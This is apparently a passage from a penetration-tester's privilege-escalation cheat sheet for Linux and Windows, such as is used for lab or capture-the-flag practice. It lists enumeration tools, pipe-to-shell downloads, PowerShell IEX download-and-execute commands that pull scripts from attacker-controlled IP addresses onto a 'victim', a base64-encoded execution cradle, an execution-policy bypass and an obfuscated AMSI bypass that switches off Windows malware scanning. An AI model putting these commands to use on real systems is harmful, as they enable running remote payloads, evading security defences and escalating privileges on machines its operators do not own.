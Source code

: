 **[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)**

	cd /tmp; curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
	./linpeas.sh -a/-s 					#option -a for CTF only, -s for stealth mode
**[LinEnum](https://github.com/rebootuser/LinEnum)**

	cd /tmp; wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash LinEnum.sh
	cd /tmp; wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O privescc.sh
	./LinEnum.sh -t -k password

**[Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)**

	./linux-exploit-suggester.pl
	
	#check browser if got GUI
	echo $DESKTOP_SESSION
	echo $XDG_CURRENT_DESKTOP
	echo $GDMSESSION
	
## 14. Windows PrivEsc  
[Windows elevation of privileges ToC](https://guif.re/windowseop) | [privilege_escalation_windows](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html) | [PayloadsAllTheThings - Windows PrivEsc Technique](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
				
	
**[PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)** - [PowerUp usage](https://recipeforroot.com/advanced-powerup-ps1-usage/) | [PowerSploit manual](https://powersploit.readthedocs.io/en/latest/)
			
*[Download & Execute](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#download-and-execute)* | [PayloadsAllTheThings - Windows Download and execute methods](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md)	

	cmd victim: echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile - 			#From cmd download and execute
	powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
	iex (iwr '10.10.14.9:8000/ipw.ps1') 			#From PSv3

*[Base64 Encoded](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#base64-kali-and-encodedcommand)*

	kali: echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:9000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0
	PS victim: powershell -EncodedCommand <Base64>
	
*PowerUp.ps1 in ctf mode*

	ECHO %Temp%
	PS victim: IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1"			#get from Github or 
	PS victim: powershell -ep bypass
	PS victim: sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
	PS victim: Import-Module PowerUp.ps1
	PS victim: . .\PowerUp.ps1
	PS victim: Invoke-AllChecks
	